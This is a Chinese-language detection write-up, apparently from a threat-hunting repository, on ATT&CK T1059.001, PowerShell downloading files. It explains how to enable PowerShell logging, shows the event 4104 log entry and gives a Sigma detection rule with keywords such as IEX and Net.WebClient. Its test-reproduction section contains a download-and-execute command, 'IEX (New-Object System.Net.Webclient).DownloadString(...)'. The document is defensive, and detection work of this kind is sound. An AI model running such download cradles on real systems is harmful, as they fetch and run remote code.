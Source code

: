 # T1059-001-win-检测Powershell下载文件

## 来自ATT&CK的描述

攻击者可能滥用PowerShell来执行命令和脚本。PowerShell是Windows操作系统中包含的功能强大的交互式命令行界面和脚本环境。攻击者可以使用PowerShell执行许多操作，包括发现信息和执行恶意代码。示例包括Start-Process可用于运行可执行文件的Invoke-Commandcmdlet和可在本地或远程计算机上运行命令的cmdlet（尽管使用PowerShell连接到远程系统需要管理员权限）。

PowerShell也可以用于从Internet下载并运行可执行文件，这些可执行文件可以从磁盘或内存中执行而无需接触磁盘。

许多基于PowerShell的攻击性测试工具，包括Empire，PowerSploit，PoshC2和PSAttack。

还可以执行PowerShell命令脚本，而无需通过.NET框架和Windows公共语言接口（CLI）公开的powershell.exePowerShell底层System.Management.Automation程序集DLL的接口直接调用二进制文件。

## 检测日志

Windows powershell日志审核策略

- 按Win+R打开Windows运行窗口,在输入框里输入gepdit.msc,打开Windows本地组策略编辑器;
- 找到计算机配置/管理模板/Windows组件/Windows Powershell，根据需求打开右侧所需要的日志功能；

## 测试复现

```yml
PS C:\Users\12306br0> IEX (New-Object System.Net.Webclient).DownloadString('http://blog.csdn.net/huangxvhui88/article/de
tails/89361287')
```

## 测试留痕

```yml
Powershell事件ID：4104
正在创建 Scriptblock 文本(已完成 1，共 1):
IEX (New-Object System.Net.Webclient).DownloadString('http://blog.csdn.net/huangxvhui88/article/details/89361287')

ScriptBlock ID: e9f29288-34e7-497f-8fff-9a6cf6c355da
```

## 检测规则/思路

### sigma规则

```yml
title: 检测PowerShell下载文件行为
status: experimental
description: 检测在powershell下载文件行为，windows server 2016测试
tags:
    - attack.t1059-001
    - attack.execution
logsource:
    category: process_creation
    product: windows
detection:
    selection:
        Image: 
            - '*\powershell.exe'
            - '*\powershell_ise.exe'
        CommandLine:
            - '*Net.WebClient*'
            - '*DownloadFile*'
            - '*Invoke-WebRequest*'
            - '*Invoke-Shellcode*'
            - '*http*'
            - '*Start-BitsTransfer*'
            - '*IEX*'
            - '*mpcmdrun.exe*'
    condition: selection
level: medium
```

### 建议

在使用Powershell日志进行检测时，我们不建议使用进程名称加命令行关键词匹配的方式进行检测。因为Powershell事件ID：4104中并不包含进程信息。

## 参考推荐

MITRE-ATT&CK-T1059-001

<https://attack.mitre.org/techniques/T1059/001/>

PowerShell 下载文件

<https://www.pstips.net/powershell-download-files.html>

检测Powershell下载文件行为

<https://github.com/microsoft/Microsoft-365-Defender-Hunting-Queries/blob/master/Execution/PowerShell%20downloads.txt>

Powershell与威胁狩猎

<https://www.freebuf.com/articles/terminal/267080.html>
